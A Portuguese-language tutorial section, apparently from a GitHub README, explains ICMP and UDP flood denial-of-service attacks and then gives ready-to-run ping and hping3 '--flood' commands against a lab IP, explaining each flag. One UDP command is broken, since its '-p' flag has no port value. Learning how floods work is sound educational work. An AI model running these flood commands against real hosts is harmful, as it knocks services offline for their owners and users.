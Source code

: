 **2- ICMP e UDP Flood**

O ataque ICMP Flood, também conhecido como Ping Flood, e o UDP Flood são técnicas de DoS (Denial ie of Service ou Negação de serviço) que exploram o envio massivo de pacotes para sobrecarregar os recursos de um servidor e interromper suas operações.

O UDP envia pacotes de dados para o servidor, e, se a porta de destino estiver aberta, o servidor responde ao pacote recebido. Caso a porta esteja fechada, o servidor envia uma mensagem ICMP indicando a indisponibilidade da porta.

Ataques de flood tem o objetivo de realizar o esgotamento dos recursos do servidor mandando pacotes maiores e mais rapidamente.

Enviar um pacote grande quebrado em várias partes para quando o mesmo chegar no destino o servidor gastar muito processamento para reconstruir esse pacote.

É necessário que o hardware do atacante seja maior que o hardware do atacado, um ataque de “força bruta”.

Para esse ataque ser efetivo em um cenário real, botnets são utilizadas.

Facilmente de ser detectado.

**Entrando em prática**

    ping  192.168.200.7 -i 0.1 -s 6500

`-i é o intervalo entre os envios de pacote`

`0.1 é o tempo em segundos para o envio de cada ping`

`-s define o tamanho do pacote`

`6500 é o tamanho do pacote em bytes`

    sudo hping3 --icmptype 8 192.168.200.7 --flood --data 6500

`--icmptype 8: Envia pacotes ICMP do tipo Echo Request`

`192\.168.200.7: IP de destino (servidor)`

`--flood: Envia os pacotes continuamente para sobrecarregar o alvo`

`--data 6500: Tamanho do pacote em bytes`

    sudo hping3 --udp 192.168.200.7 --flood -p --data 6500

`--udp: Define o protocolo como UDP`

`192\.168.200.7: IP de destino (servidor)`

`--flood: Envia pacotes continuamente`

`-p 80: Porta de destino (geralmente usada para HTTP)`

`--data 6500: Tamanho do pacote em bytes`
